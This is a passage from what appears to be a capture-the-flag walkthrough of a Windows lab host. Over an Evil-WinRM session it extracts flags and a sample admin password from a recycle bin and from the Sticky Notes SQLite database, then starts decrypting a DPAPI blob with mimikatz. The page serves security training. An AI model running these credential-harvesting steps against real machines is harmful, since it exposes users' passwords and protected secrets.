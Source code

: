 **🎯 FLAG 25 FOUND**: FLAG{M**********9} - Recycle Bin

**Recycle Bin Intelligence**:
- Deleted files aren't gone
- Contains sensitive documents
- Reveals user activity
- Can be recovered easily

### FLAG 26: Sticky Notes

**Location**: Sticky Notes database  
**Difficulty**: Medium

```powershell
# Navigate to Sticky Notes location
*Evil-WinRM* PS C:\> $stickyPath = "$env:LOCALAPPDATA\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState"
*Evil-WinRM* PS C:\> Get-ChildItem $stickyPath

    Directory: C:\Users\jsmith\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/5/2025   10:15 AM          32768 plum.sqlite
-a----         9/5/2025   10:15 AM           8192 plum.sqlite-shm
-a----         9/5/2025   10:15 AM          32768 plum.sqlite-wal

# Read the SQLite database (contains sticky notes)
*Evil-WinRM* PS C:\> $content = Get-Content "$stickyPath\plum.sqlite" -Encoding UTF8
*Evil-WinRM* PS C:\> $content | Select-String "FLAG"

SQLite format 3
Sticky Note: Remember the flag is FLAG{W***********3}
Password for admin: Password123!
Meeting at 3pm tomorrow
```

**🎯 FLAG 26 FOUND**: FLAG{W**********3} - Sticky Notes

**Why Sticky Notes Are Gold**:
- Users write passwords
- Contains reminders
- Persists between sessions
- Stored in SQLite database

### FLAG 27: DPAPI Protected Data

**Location**: DPAPI encrypted file  
**Difficulty**: Hard

```powershell
# Find DPAPI encrypted files
*Evil-WinRM* PS C:\> Get-ChildItem C:\Users -Include "*.bin","*.blob" -Recurse -ErrorAction SilentlyContinue

    Directory: C:\Users\Public\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/5/2025   10:15 AM            256 dpapi_flag.bin

# Method 1: Using Mimikatz to decrypt
*Evil-WinRM* PS C:\Temp> .\mimikatz.exe

mimikatz # dpapi::blob /in:C:\Users\Public\Documents\dpapi_flag.bin
**BLOB**
```